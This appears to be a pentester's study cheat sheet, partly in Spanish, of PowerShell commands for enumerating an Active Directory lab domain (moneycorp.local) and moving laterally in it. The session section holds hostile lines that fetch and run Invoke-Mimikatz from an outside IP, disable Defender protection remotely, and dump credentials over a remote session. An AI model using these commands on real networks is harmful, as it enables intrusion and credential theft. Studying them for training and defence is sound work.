 ## Object of another domain
..* `Get-NetDomain –Domain moneycorp.local`
..* `Get-ADDomain -Identity moneycorp.local`

##  Domain SID for the current domain
..* `Get-DomainSID`
..* `(Get-ADDomain).DomainSID`

## Domain Policy
..* `Get-DomainPolicy`
..* `(Get-DomainPolicy)."system access"`

## DOmain controller
..* `Get-NetDomainController`
..* `Get-ADDomainController`

# Users
..* `Get-NetUser -Username student1`
..* `Get-ADUser -Identity student1 -Properties *`

## Máquinas en las que el usuario actual es administardor local (ruidoso)
..* `Find-LocalAdminAccess –Verbose`
..* Con la herramienta Find-WMILocalAdminAccess.psa pones los equipos en un txt (Get-NetComputer)`Find-WMILocalAdminAccess -ComputerFile .\computers.txt`

## Sesión en la máquina en la que tu eres administrador local
..* `Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local`
..* ` $sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local`
..* ` iex (iwr http://172.16.100.46/Invoke-Mimikatz.ps1 -UseBasicParsing)`
..* `Invoke-command -ScriptBlock {Set-MpPreference -DisableIOAVProtection $true} -Session $sess`
..* `Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess`

## Busca máquinas que tengan algún usuario como administardor local
..* `Invoke-EnumerateLocalAdmin`

## Buscar máquinas en las que algún miembro de admin u otro grupo tenga sesiones abiertas
..* `Invoke-UserHunter -GroupName "RDPUsers"`
..* `Invoke-UserHunter -CheckAccess` Para comprobar que tenemos acceso a esa máquina



## Properties Users
..* `Get-UserProperty –Properties pwdlastset | Where-Object { $_.name -like '*student5*' }`
..* `Get-ADUser -Filter * -Properties * | select name,@{expression={[datetime]::fromFileTime($_.pwdlastset)}} | Where-Object { $_.name -like '*student5*' }`
